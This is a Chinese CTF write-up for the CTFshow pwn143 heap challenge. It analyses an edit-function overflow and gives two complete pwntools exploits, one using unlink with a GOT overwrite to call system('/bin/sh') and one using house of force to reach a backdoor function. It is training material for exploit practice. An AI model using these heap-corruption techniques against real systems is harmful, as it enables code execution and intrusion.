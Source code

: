 ```yaml
---
title: CTFshow pwn143
tags:
  - pwn
  - unlink
categories:
  - 做题笔记
cover: /img/紫发.png
---
```


# CTFshow pwn143 (unlink & houce of force)

## ida分析

### main函数分析
![1741875084264.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2e78e7977a.png)
1.经典菜单题
2.但是值得注意的是case 5 会调用v4[1] ，可以覆盖其中地址为题目留下的后门函数

### add函数分析
![1741875249112.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2e832e7df2.png)
1.理清题目堆块指针的保存结构，使用list数组保存对应的堆块大小
2.使用heaplist数组，保存堆块的地址

### edit函数分析
![1741875438296.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2e8f044392.png)
1.发现溢出漏洞，可以溢出多字节

### show函数分析
![1741875684508.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2e9e693af7.png)
1.没什么特别的，就是可以用来泄露libc

### delete函数分析
![1741875887777.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2eab191a39.png)
1.没有漏洞，释放后将指针置空了

## 构造思路
1.首先这题在edit时留出了任意长度的溢出，但是没有uaf漏洞。所以这道题首先考虑unlink方法；同时这道题在case5 留出了一个v4给我们操作，那么如果可以通过某种方法申请到这块空间，就可以篡改为题目留下来的后门函数。这里可以使用house of force，也可以考虑fastbin dup吧，后续可以尝试。
2.那么确定攻击的方法之后，只需要注意几个点。如果采用unlink的手法，必须注意，伪造的fake_chunk的地址，必须是存放我们进行unlink操作的堆块的地址，如下图中所示。ptr就是存放堆块0的指针
![1741876735944.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/67d2ee0282c68.png)
3.此题使用unlink还要注意，堆块0的不能大于fastbin的大小，否则最后delete时会报错，不知道为什么。（待解决）明明unlink操作成功，修改free_got也成功，就是会报错。
4.如果使用house of force 的手法，那么只需要修改top的size，为-1(0xffffffffffffffff)。然后根据偏移，申清负数大小的堆块，是top_chunk迁移到目的地址(注意留出chunk头大小的空间)，然后申清就可以分配到这块空间。

## exp
### unlink
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='pwn.challenge.ctf.show'
port=28159
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name):
    io.recvuntil("Your choice:")
    io.sendline("2")
    io.recvuntil("length:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def edit(idx,size,name):
    io.recvuntil("Your choice:")
    io.sendline("3")
    io.recvuntil("index:")
    io.sendline(str(idx))
    io.recvuntil("of name:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def show():
    io.recvuntil("Your choice:")
    io.sendline("1")
   
def delete(idx):
    io.recvuntil("Your choice:")
    io.sendline("4")
    io.recvuntil("index:")
    io.sendline(str(idx))

flag=0x400D7F
add(0x60,b'aaaa') #0
add(0x90,b'bbbb') #1
add(0x80,b'cccc') #2
add(0x20,b'/bin/sh\x00') #3
ptr=0x6020a8
fd=ptr-0x18
bk=ptr-0x10
fake_chunk=p64(0)+p64(0x61)
fake_chunk+=p64(fd)+p64(bk)
fake_chunk+=p64(0)*8
fake_chunk+=p64(0x60)+p64(0xa0)

edit(0,len(fake_chunk),fake_chunk)
#gdb.attach(io)
delete(1)
payload=p64(0)+p64(0)+p64(0x90)+p64(elf.got['free'])
edit(0,len(payload),payload)
#gdb.attach(io)
show()
io.recv(4)
free=u64(io.recv(6).ljust(8,b'\x00'))
log.success("free-{}".format(hex(free)))
libc=LibcSearcher("free",free)
libcbase=free-libc.dump("free")
system=libcbase+libc.dump("system")
gdb.attach(io)
edit(0,0x8,p64(system))
delete(3)
io.interactive()
```
### house of force
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='pwn.challenge.ctf.show'
port=28197
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name):
    io.recvuntil("Your choice:")
    io.sendline("2")
    io.recvuntil("length:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def edit(idx,size,name):
    io.recvuntil("Your choice:")
    io.sendline("3")
    io.recvuntil("index:")
    io.sendline(str(idx))
    io.recvuntil("of name:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def show():
    io.recvuntil("Your choice:")
    io.sendline("1")
   
def delete(idx):
    io.recvuntil("Your choice:")
    io.sendline("4")
    io.recvuntil("index:")
    io.sendline(str(idx))
def get_flag():
    io.recvuntil("Your choice:")
    io.sendline("5")
flag=0x400D7F
add(0x30,b'aaaa')
payload=p64(0)*7+p64(0xffffffffffffffff)

edit(0,0x41,payload)

offset=-0x70
add(offset,b'aaaa')
#gdb.attach(io)
add(0x10,p64(flag)*2)
get_flag()
io.interactive()
```